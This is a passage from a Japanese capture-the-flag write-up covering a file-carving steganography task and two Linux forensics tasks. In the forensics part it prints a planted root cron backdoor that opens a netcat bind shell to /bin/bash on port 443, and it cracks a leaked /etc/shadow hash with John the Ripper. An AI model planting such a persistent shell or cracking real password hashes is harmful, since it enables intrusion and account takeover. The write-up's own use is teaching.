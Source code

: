とファイルの後ろに zip がくっついているとわかります。

```python
s = open('a.jpg', 'rb').read()
open('a.zip', 'wb').write(s[0x1f7c9:])
```

展開するとフラグが書かれた画像が出てきました。

```
rebellions_are_built_on_hope
```

### Siths use Ubuntu (1 of 3) (125)

`/etc/crontab` を見ると

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 *   * * *   root    /etc/init.d/rebels
```

とあります。`/etc/init.d/rebels` を見てみましょう。

```
#!/bin/bash
# The F | L | A | G is: kylo_ren_undercover_boss
if (( `/bin/ps aux | /bin/grep /bin/nc | /usr/bin/wc -l` == 1 )); then /bin/nc.traditional -l -p 443 -e /bin/bash; fi
```

```
kylo_ren_undercover_boss
```

### Siths use Ubuntu (2 of 3) (175)

`/etc/shadow.backup` を見ると以前のパスワードは `$6$7BjdgYNF$ilxLuuktH8ZNQqaAaIQPHevTvkhGZ5Qj5iZB28jaeTMx9KBqaF1rvALIK0TAcKCC3kkI/Wl4cu8OYHNxMXVmd0` であるとわかります。

あとは John the Ripper に投げるとフラグが出てきました。

```
starwars
```
